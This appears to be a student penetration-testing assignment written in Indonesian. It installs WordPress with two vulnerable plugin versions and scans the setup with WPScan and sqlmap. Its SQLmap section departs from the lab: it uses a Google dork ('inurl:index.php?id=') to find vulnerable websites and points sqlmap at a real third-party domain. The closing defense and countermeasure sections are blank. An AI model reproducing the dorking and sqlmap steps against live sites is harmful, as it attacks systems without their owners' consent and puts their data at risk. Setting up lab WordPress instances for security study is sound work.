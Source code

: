 ## Tugas 2

### Pendahuluan
Pada Tugas 2 kami akan mencoba penetrasi aplikasi web berbasis wordpress dengan memanfaatkan beberapa plugin yang vulnerable atau berpotensi untuk diserang dengan teknik SQL Injection. Dalam percobaan yang kami lakukan kami menggunakan beberapa tool untuk mencoba SQL Injection.

### Dasar Teori
#### SQL Injection
SQL Injection merupakan teknik mengeksploitasi aplikasi web yang didalamnya menggunakan database untuk penyimpanan data.  Aksi hacking / attacking dengan SQL injection dapat dilakukan pada aplikasi client ketika ketika masukan pengguna tidak disaring secara benar dari karakter-karakter pelolos bentukan string yang diimbuhkan dalam pernyataan SQL atau masukan pengguna tidak bertipe kuat dan karenanya dijalankan tidak sesuai harapan.

#### Ubuntu Server
Ubuntu Server adalah sistem operasi distribusi linux yang berasal dari sistem operasi ubuntu tanpa tampilan GUI desktop

#### Wordpress
WordPress adalah sebuah aplikasi sumber terbuka (open source) yang sangat populer digunakan sebagai mesin blog (blog engine). WordPress dibangun dengan bahasa pemrograman PHP dan basis data (database) MySQL. PHP dan MySQL, keduanya merupakan perangkat lunak sumber terbuka (open source software).

#### SqlMap
SQLMap adalah alat uji penetrasi open source yang mengotomatisasi proses mendeteksi dan mengeksploitasi kelemahan injeksi SQL dan mengambil alih basis data server.
  
#### WPScan
WPScan adalah scanner keamanan yang memeriksa keamanan WordPress menggunakan metode “black box”.

### Uji Penetrasi
#### install apache2
```bash
sudo apt-get install apache2 apache2-utils
sudo systemctl enable apache2
sudo systemctl start apache2
```

#### install mysql
```bash
sudo apt-get install mysql-client mysql-server
sudo mysql-secure-isntallation
```

#### install php and modules
```bash
sudo apt-get install php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd  
sudo nano /var/www/html/info.php buat ngetes
```

#### install wordpress cms
```bash
wget -c http://wordpress.org/latest.tar.gz
tar -xzvf latest.tar.gz
```

```bash
sudo rsync -av wordpress/* /var/www/html/
```

```bash
sudo chown -R www-data:www-data /var/www/html/
$ sudo chmod -R 755 /var/www/html/
```

#### create wordpress database

```bash
mysql -u root -p
mysql> CREATE DATABASE wp_myblog;
mysql> GRANT ALL PRIVILEGES ON wp_myblog.* TO 'your_username_here'@'localhost' IDENTIFIED BY 'your_chosen_password_here';
mysql> FLUSH PRIVILEGES;
mysql> EXIT;

sudo mv wp-config-sample.php wp-config.php
```
#### configurasi wordpress

jalankan secure values dari wordpress secret key generator

```bash
curl -s https://api.wordpress.org/secret-key/1.1/salt/
```
dan copy hasil ouput dari perintah di atas pada bagian yang menyerupai hasil output pada file wp-config.php
ubah wp-config.php sesuai database

```bash
sudo systemctl restart apache2.service 
sudo systemctl restart mysql.service 
```
buka localhost/wp-admin/setup-config.php
buat user
login


#### install plugin
```bash
cd /var/www/html/wp-content/plugins
sudo wget -c https://downloads.wordpress.org/plugin/player.1.5.16.zip
sudo wget -c https://downloads.wordpress.org/plugin/leaguemanager.3.9.1.1.zip

sudo apt-get install unzip

sudo unzip player.1.5.16.zip
sudo unzip leaguemanager.3.9.1.1.zip
```

buka halaman wordpressnya, login
pilih plugins, installed plugins
aktifkan plugins yang sudah diinstall

#### WPSCAN
Install file yang dibutuhkan
```bash
sudo apt-get install git
sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev
```

Clone git project wpscan
```bash
git clone https://github.com/wpscanteam/wpscan.git
cd wpscan
sudo gem install bundler && bundle install --without test development
```

Jalankan menggunakan ruby
```bash
unzip data.zip
ruby wpscan.rb -u 192.168.56.103 --enumerate vp
```
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/1.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/2.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/3.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/4.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/5.png)

#### SQLmap
Clone git project sqlmap
```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

Cari website yang vulnerable melalui google dengan cara
```bash
inurl:index.php?id=
```

Jalankan sqlmap menggunakan python
```bash
cd sqlmap
python sqlmap.py -u 'http://www.icdcprague.org/index.php?id=10'
```

![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/1.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/2.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/3.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/4.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/5.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/6.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/7.png)

### Kesimpulan

#### Defense

#### Countermeasure
